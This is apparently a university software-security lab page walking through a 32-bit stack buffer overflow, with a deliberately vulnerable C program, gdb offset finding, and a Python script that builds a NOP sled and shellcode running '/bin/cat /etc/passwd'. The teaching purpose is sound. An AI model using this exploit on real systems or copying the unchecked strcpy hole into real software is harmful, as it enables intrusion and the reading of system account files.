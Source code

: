 ```yaml
---
layout: ../../../layouts/SemesterMarkdown.astro
---
```



# Shellcode walkthrough

We're going to be walking through an example of using an x32 shellcode.

## Vulnerable code

Here is the vulnerable code we'll be using. This is taken from `stack-overflow.c` in the `shellcode32` directory in the [software security repo](https://github.com/BYU-CS465/software-security).

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void my_function(const char *);

int main(int argc, char **argv)
{
  char buf[1000];

  printf("Enter a string: ");
  fgets(buf, 999, stdin);

  my_function(buf);

  printf("Exiting normally\n");
}

void my_function(const char *src)
{
  char copy[500];
  strcpy(copy, src);
}
```

As you can see, the code has a 500-byte buffer that is the destination for `strcpy()`, but input in `main()` enables an attacker to enter 999 bytes.

## Finding the stack pointer offset

Run `gdb ./stack` and then generate a pattern: `pattern create`:

<Image alt="Using the pattern create command in gdb" src={pattern_create} />

Now run the program and supply the pattern as input:

<Image alt="Crash output from gdb" src={gdb_crash} />

- The top listing shows you registers, color-coded to show you which are affected by what we wrote on the stack.

  - Notice that we can overwrite `$esp`, the stack pointer
  - Notice that we changed `$eip`, the instruction pointer.

- The bottom listing shows you the stack.

Now run `pattern search daafeaaf`:

<Image alt="Use the pattern search command in gdb" src={gdb_pattern_search} />

You should see the offset from the buffer to `$esp`, which in this case is 512.

## Shellcode

You can use [Exploit Databse](https://www.exploit-db.com/) to find shellcode. I chose [Linux/x86 - execve(/bin/cat /etc/passwd)](https://www.exploit-db.com/shellcodes/13609), which is 43 bytes.

> Note, I originally used shellcode that ran `/bin/sh`, but the shell exits when the program exits so it doesn't do much useful

You can put the offset and the shellcode into `shell.py`:

```python
#!/usr/bin/env python3
import sys

# shellcode
# cat /etc/passwd
# length of shellcode is 43 bytes
SHELL = 43
shellcode32 = b'\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80'

# calculate this offset in gdb
OFFSET = 512

NUM = OFFSET - SHELL - 40

nop = b'\x90' * NUM

# find this address by examining the stack after strcpy()
# eip

# use for checking which address to use
eip = b'\x43\x43\x43\x43' * 10

payload = nop + shellcode32 + eip

sys.stdout.buffer.write(payload)
print()
```

This program will create a payload tht contains a nop sled, followed by the shellcode, followed by 10 copies of a bad address (capital C). Our goal is to find a good address to overwrite $esp, and this will help us do it.

Create the payload with `python shell.py > payload.txt`

## Finding an address for the exploit

Use `gdb` and run `r < payload.txt`:

<Image alt="Find the address" src={gdb_find_address} />

What we want is an address that is in our nop sled, which is the list of `\x90` instructions on the stack. Let's use `0xffffcec0`. Modify the script so it uses this
address:

```python
#!/usr/bin/env python3
import sys

# shellcode
# cat /etc/passwd
# length of shellcode is 43 bytes
SHELL = 43
shellcode32 = b'\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x73\x73\x77\x64\x68\
\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80'

# calculate this offset in gdb
OFFSET = 512

NUM = OFFSET - SHELL - 40

nop = b'\x90' * NUM

# find this address by examining the stack after strcpy()
eip = b'\xc0\xce\xff\xff' * 10

# use for checking which address to use
# eip = b'\x43\x43\x43\x43' * 10

payload = nop + shellcode32 + eip

sys.stdout.buffer.write(payload)
print()
```

Generate a new payload with `python shell.py > payload.txt`.

## Running the exploit

Now we can run this in gdb with `r < payload.txt>`:

<Image alt="It works!" src={shellcode_done} />

It works!

You can also run this exploit on the command line with `./stack < payload.txt`.
